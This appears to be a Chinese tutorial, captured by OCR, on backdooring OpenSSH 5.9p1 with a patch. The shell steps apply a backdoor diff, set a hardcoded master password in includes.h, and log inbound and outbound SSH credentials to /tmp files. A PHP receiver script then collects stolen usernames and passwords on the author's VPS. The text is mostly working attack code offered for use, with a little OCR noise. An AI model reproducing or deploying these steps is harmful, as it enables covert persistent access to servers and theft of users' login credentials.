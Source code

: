 ```bash
ssh -V > ssh.txt
mv /etc/ssh/ssh_config /etc/ssh/ssh_config.old
mv /etc/ssh/sshd_config /etc/ssh/sshd_config.old
```

#### 2）解压、修改后门配置

*解压并安装补丁*

```bash
tar zxf openssh-5.9p1.tar.gz
c
cp openssh-5.9p1.patch/sshbd5.9p1.diff  openssh-5.9p1
cd openssh-5.9p1
patch < sshbd5.9p1.diff # 打补丁就是修改替换原文件
```

如果环境没有`patch`，就自己安装一下

```bash
yum install patch
```

*添加后门万能密码*

修改`includes.h`文件中记录用户名和密码的文件位置及其密码，命令如下

```bash
vim includes.h
```

在文件的最后面：

```bash
#define ILOG "/tmp/ilog" 	//记录登录本机的用户名和密码
#define OLOG "/tmp/olog" 	//记录本机登录远程的用户名和密码
#define SECRETPW "yuan" //后门的密码
```

![截图](c82bd7295b329caecc76ea9477db68b0.png)

*发送账户密码到vps上*

> 这里我参考网上的内容时候发现一直复现不成功，也不知道是什么原因。但是我觉得这个能将ssh的账号密码发送到自己的vps上是十分有用的。因此，再经过我一个下午努力后我将原文的代码进行了调整与简化后，就发现可以发送了！！！ 下面我将给出我自己调整后的代码以及遇到的bug！

客户端：

```php
<?php
/* author: yuan
   time: 2024-03-19 17:05

*/
$username = $_POST['username'];
$password = $_POST['password'];
$time=date('Y-m-d H:i:s',time());
 if(isset($username) != "" || isset($password) !="" )
 {
    $fp = fopen("./sshlog.txt","a+");
    $result = "sername:.$username--->:Password:$password----->time:$time";
    echo $result;
    fwrite($fp,'sss');
    fwrite($fp,$result);
    fwrite($fp,"\r\n");
    fclose($fp);
 }
?>
```
{: file='ssh.php'}
